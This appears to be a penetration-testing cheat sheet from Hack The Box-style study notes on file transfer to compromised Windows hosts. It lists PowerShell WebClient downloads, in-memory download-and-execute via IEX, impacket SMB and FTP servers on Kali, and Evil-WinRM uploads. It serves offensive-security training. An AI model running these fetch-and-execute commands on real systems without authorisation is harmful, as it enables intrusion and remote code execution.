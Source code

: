 ```yaml
---
description: Windows file transfer download techniques
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Windows File Download

## Powershell

### Powershell Base64 Encode/Decode

#### Encode

```bash
$ cat <file> | base64 -w 0; echo
```

#### Decode

{% code overflow="wrap" fullWidth="false" %}
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("<Save Path>", [Convert]::FromBase64String("<Base64 String>"))
```
{% endcode %}

### Powershell Web Downloads

|                                                                                                                          |                                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| Method                                                                                                                   | Description                                                                                                                |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('<REMOTE FILE>','LOCAL FILE>')
```
{% endcode %}

### Powershell Web Download - In Memory

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE>')
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('<FILE>') | IEX
```
{% endcode %}

## SMB

### Starting SMB Server From Kali

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb
```

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb -user test -password test
```

### Copy File From SMB Server

```batch
net use n: \\<IP>\<Share> /user:<USER> <PASS>
```

```batch
C:\htb> copy \\<IP>\<SHARE>\<FILE>
```

## FTP

### Starting FTP Server From Kali

```bash
$ sudo python3 -m pyftpdlib --port 21
```

### Copy File From FTP Server

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', '<LOCAL FILE')
```
{% endcode %}

## Evil-Winrm

```powershell
*Evil-WinRM* PS C:\> upload <REMOTE FILE> <LOCAL FILE>
```

